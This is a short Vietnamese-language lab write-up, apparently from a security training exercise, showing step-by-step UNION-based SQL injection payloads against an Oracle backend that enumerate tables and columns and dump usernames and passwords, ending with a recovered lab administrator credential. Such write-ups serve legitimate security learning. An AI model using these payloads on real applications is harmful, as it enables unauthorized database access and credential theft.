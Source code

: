 ## SQL injection attack, listing the database contents on Oracle

1. Trước hết xác định số cột trong câu truy vấn mặc định và số cột có kiểu string bằng bảng ``dual`` trong Oracle.
Payload: 
- ```' UNION SELECT 'test','test' from dual --```
-> Xác định có 2 cột và cả 2 cột đều có kiểu dữ liệu string.

2. Trong Oracle thay vì dùng ``information_schema`` mà dùng ``all_tables``. Để lấy tên các bảng có trong database dùng payload:
- ```' UNION SELECT null,table_name FROM all_tables--``` 

![Img1](\asset/../img/tables_list.png)

-> Nhận thấy ``USERS_ZKMKPZ`` khá khả nghi.

3. Lấy tên cột trong ``USERS_ZKMKPZ`` với payload:
- ```' UNION SELECT null,column_name FROM ALL_TAB_COLUMNS WHERE table_name = 'USERS_ZKMKPZ'--```

![Img2](\asset/../img/col_list.png)

4. Từ 2 cột phát hiện được ``PASSWORD_HARODL`` và ``USERNAME_XEIZNC``. Dùng truy vấn SELECT để xác định thông tin đăng nhập của các user.
Payload:
- ```' UNION SELECT USERNAME_XEIZNC,PASSWORD_HARODL FROM USERS_ZKMKPZ--```
-> Admin có thông tin đăng nhập là : ``administrator::8coya29y33uuucy7bjkr``